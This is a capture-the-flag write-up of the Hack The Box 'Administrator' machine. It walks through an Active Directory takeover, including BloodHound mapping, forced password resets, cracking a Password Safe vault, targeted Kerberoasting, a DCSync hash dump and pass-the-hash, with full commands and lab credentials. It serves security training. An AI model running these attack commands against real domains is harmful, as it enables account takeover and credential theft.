# HTB Administrator Write-Up

## Initial Access with Olivia Credentials

As is common in real life Windows pentests, I started the Administrator box with credentials for the following account:  
**Username: Olivia**  
**Password: ichliebedich**

## Enumeration

I began by running comprehensive port scans to identify all open services on the target:

```bash
ports=$(nmap -p- --min-rate=1000 -T4 10.129.5.175 | grep '^[0-9]' | cut -d '/' -f 1 | tr '\n' ',' | sed s/,$//)
nmap -p$ports -sC -sV 10.129.5.175 -oN nmap
sudo nmap 10.129.5.175 -sU -oN nmap_UDP
```

The scan revealed several interesting ports indicating this is a Domain Controller:

| Port | Service | Comments |
|------|---------|----------|
| 21/tcp | ftp | Microsoft FTP server |
| 53/tcp | domain  | DNS server (Simple DNS Plus) |
| 88/tcp | kerberos-sec | Kerberos authentication |
| 135/tcp | msrpc  | Microsoft RPC |
| 139/tcp | netbios-ssn | NetBIOS |
| 389/tcp | ldap | LDAP (administrator.htb domain) |
| 445/tcp | microsoft-ds  | SMB |
| 5985/tcp | http | WinRM |

## FTP Enumeration

I first checked the FTP service using both anonymous login and Olivia's credentials:



No anonymous access was allowed, and Olivia's credentials didn't provide FTP access either.

## SMB Enumeration

I attempted guest and null session enumeration with no results:



Using Olivia's credentials, I enumerated available SMB shares:

```bash
nxc smb 10.129.5.175 -u Olivia -p ichliebedich --shares
```


## User Enumeration

I performed a RID brute force attack to enumerate domain users:

```bash
nxc smb 10.129.5.175 -u Olivia -p ichliebedich --rid-brute
```


This revealed several users including:
- Administrator
- Guest
- Olivia
- Michael
- Benjamin
- Emily
- ethan

## AS-REP Roasting Attempt

I attempted AS-REP roasting against the discovered users:

```bash
/usr/share/doc/python3-impacket/examples/GetNPUsers.py ADMINISTRATOR/ -dc-ip 10.129.5.175 -no-pass -usersfile users.txt
```


No users were vulnerable to AS-REP roasting.

## WinRM Access Check

I checked if Olivia had WinRM access:

```bash
nxc winrm 10.129.5.175 -u Olivia -p ichliebedich
```


Olivia had WinRM access, allowing me to establish a remote PowerShell session.

## LDAP User Description Enumeration

I checked for any useful information in user descriptions:

```bash
nxc ldap 10.129.5.175 -u Olivia -p ichliebedich -M get-desc-users
```


Nothing useful was found in the descriptions.

## BloodHound Enumeration

I ran BloodHound to map the domain's attack paths:

```bash
bloodhound-python -c ALL -u Olivia -p ichliebedich -d administrator.htb -ns 10.129.5.175 --zip
```

After adding Olivia as an owned object in BloodHound, I analyzed her permissions:



BloodHound revealed that Olivia had the permission to change Michael's password.

## Privilege Escalation to Michael

I established a WinRM session as Olivia:

```bash
evil-winrm -i 10.129.5.175 -u Olivia -p ichliebedich
```

Once inside, I uploaded and imported PowerView:

```powershell
Import-module ./PowerView.ps1
```

I created a secure string for the new password and changed Michael's account:

```powershell
$UserPassword = ConvertTo-SecureString 'Password123!' -AsPlainText -Force
Set-DomainUserPassword -Identity Michael -AccountPassword $UserPassword
```

I verified the password change worked:

```bash
nxc smb 10.129.5.175 -u Michael -p 'Password123!'
```



I also checked if Michael had WinRM access:

```bash
nxc winrm 10.129.5.175 -u Michael -p 'Password123!'
```


## Privilege Escalation to Benjamin

I added Michael as an owned object in BloodHound and analyzed his permissions:


Michael had the privilege to change Benjamin's password. I repeated the password change process:

```powershell
$UserPassword = ConvertTo-SecureString 'Password1234!' -AsPlainText -Force
Set-DomainUserPassword -Identity benjamin -AccountPassword $UserPassword
```

I verified the credentials:

```bash
nxc smb 10.129.5.175 -u Benjamin -p 'Password1234!'
```



Full path:


## FTP Access and Password Vault

With Benjamin's credentials, I tried FTP access:

```bash
ftp 10.129.5.175
```



I successfully logged in and found a file named `Backup.psafe3`, which is a Password Safe vault file.

## Cracking the Password Vault

I downloaded the file and cracked it using hashcat:

```bash
hashcat -m 5200 Backup.psafe3 /usr/share/wordlists/rockyou.txt
```



The master password for the vault was **tekieromucho**.

I opened the vault to extract stored passwords:

```bash
pwsafe Backup.psafe3
```



The vault contained credentials for several users. Emily's password was particularly interesting: **UXLCI5iETUsIBoFVTj8yQFKoHjXmb**

## Access as Emily

I verified Emily's credentials:

```bash
nxc winrm 10.129.5.175 -u emily -p 'UXLCI5iETUsIBoFVTj8yQFKoHjXmb'
```



I established a WinRM session as Emily:

```bash
evil-winrm -i 10.129.5.175 -u emily -p UXLCI5iETUsIBoFVTj8yQFKoHjXmb
```


## BloodHound Analysis for Emily

I added Emily to the owned objects in BloodHound:



BloodHound showed that Emily had GenericWrite permissions on the user "ethan". This allowed me to either reset Ethan's password or add a fake SPN for Kerberoasting.

## Targeted Kerberoasting

First, I synchronized my system time with the Domain Controller to ensure Kerberos authentication would work properly:

```bash
sudo timedatectl set-ntp off
sudo ntpdate -u 10.129.5.175
```



I used targetedKerberoast to add a fake SPN to Ethan and immediately request a service ticket:

```bash
python3 targetedKerberoast.py -u 'emily' -p 'UXLCI5iETUsIBoFVTj8yQFKoHjXmb' -d 'administrator.htb' --dc-ip 10.129.5.175 --request-user ethan
```



## Cracking Ethan's Hash

I cracked the TGS-REP hash with hashcat:

```bash
hashcat -m 13100 ethan_TGT /usr/share/wordlists/rockyou.txt
```



Ethan's password was **limpbizkit**.

I verified the credentials:

```bash
nxc smb 10.129.5.175 -u ethan -p limpbizkit
```



## BloodHound Analysis for Ethan

I added Ethan to owned objects and analyzed his privileges:



Ethan had both **GetChanges** and **GetChangesAll** privileges, which meant I could perform a DCSync attack.

## DCSync Attack

I used impacket's secretsdump.py to perform the DCSync attack and dump all password hashes:

```bash
/usr/share/doc/python3-impacket/examples/secretsdump.py ethan:limpbizkit@10.129.5.175
```



The Administrator's NTLM hash was: **3dc553ce4b9fd20bd016e098d2d2fd2e**

## Administrator Access

I used the Administrator's hash to establish a WinRM session:

```bash
evil-winrm -i 10.129.5.175 -u Administrator -H 3dc553ce4b9fd20bd016e098d2d2fd2e
```
